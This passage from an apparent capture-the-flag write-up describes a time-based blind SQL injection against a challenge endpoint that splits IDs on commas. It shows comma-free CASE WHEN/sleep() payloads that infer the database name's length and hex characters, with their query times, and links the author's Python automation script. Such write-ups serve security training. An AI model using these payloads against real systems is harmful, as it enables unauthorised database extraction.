 ![05_SQLi](imgs/05_SQLi.png)  

The real problem with this SQL injection is to avoid the usage of commas as the endpoint splits IDs on that character. Also, not being able to use UNION to obtain further values at a first try, I resurrected my [handy python script for blind SQL injections](https://github.com/LamonatoAndrea/KringleCon2/blob/master/01%20-%20Primary%20Objectives/09%20-%20Retrieve%20Scraps%20of%20Paper%20from%20Server/students.py) and slightly readapted it for the purpose.

The first run went fairly good even though the response times on successful queries were definitely huge:  
```sql
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='14') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='15') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='16') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='17') THEN (sleep(0.1)) ELSE 2 END)  Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='18') THEN (sleep(0.1)) ELSE 2 END)  Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT CHAR_LENGTH(HEX(database())))='18') THEN (sleep(0.1)) ELSE 2 END)  Query took 32 seconds   
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '0%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '1%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
1,(SELECT CASE WHEN ((SELECT LOWER(HEX(database()))) LIKE '2%') THEN (sleep(0.1)) ELSE 2 END)   Query took 0 seconds    
```